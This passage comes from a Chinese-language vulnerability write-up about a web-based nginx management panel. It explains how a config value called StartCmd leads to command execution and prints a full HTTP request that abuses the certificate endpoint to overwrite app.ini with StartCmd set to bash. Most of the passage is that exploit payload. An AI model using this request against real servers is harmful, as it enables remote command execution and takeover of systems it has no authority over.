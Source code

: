 这里`StartCmd`参数中的值会被`c := exec.Command(settings.ServerSettings.StartCmd)`执行，所以我们只需要将我们想要执行的名通过`StartCmd`参数写入 app.ini 配置文件，app,ini 为程序启动的配置文件，在程序重新启动时便可以执行我们想要的命令。  
[![](assets/1707954186-1322308a60ed09da59d64d75b2c316d5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204224752-5fe670c4-c36c-1.png)

这里的利用思路很巧妙，不过缺点在于需要重新启动程序。这里也可以利用常用的文件写入的利用思路。

```bash
POST /api/cert HTTP/1.1
Host: 127.0.0.1:9000
Content-Length: 980
Accept: application/json, text/plain, */*
Authorization: <JWT>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/json
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8,fr;q=0.7
Connection: close

{"name":"poc","ssl_certificate_path":"/root/nginx/app.ini","ssl_certificate_key_path":"/tmp/test2","ssl_certificate":"[server]\r\nHttpHost          = 0.0.0.0\r\nHttpPort          = 9000\r\nRunMode           = debug\r\nJwtSecret         = 504f334b-ac68-4fbc-9160-2ecbf9e5794c\r\nNodeSecret        = 139ab224-9e9e-444f-987e-b3a651175ad5\r\nHTTPChallengePort = 9180\r\nEmail             = props@pros.com\r\nDatabase          = database\r\nStartCmd          = bash\r\nCADir             = dqsdqsd\r\nDemo              = false\r\nPageSize          = 10\r\nGithubProxy       = dqsdqfsdfsdfsdfsd\r\n\r\n[nginx]\r\nAccessLogPath =\r\nErrorLogPath  =\r\nConfigDir     =\r\nPIDPath       =\r\nTestConfigCmd =\r\nReloadCmd     =\r\nRestartCmd    =\r\n\r\n[openai]\r\nBaseUrl = \r\nToken   =\r\nProxy   =\r\nModel   = \r\n\r\n[casdoor]\r\nEndpoint     =\r\nClientId     =\r\nClientSecret =\r\nCertificate  =\r\nOrganization =\r\nApplication  =\r\nRedirectUri  =","ssl_certificate_key":"test2"}
```

[![](assets/1707954186-cf2f547d1dec3508cc7c7332da6b415f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204224819-6fd1dd20-c36c-1.png)  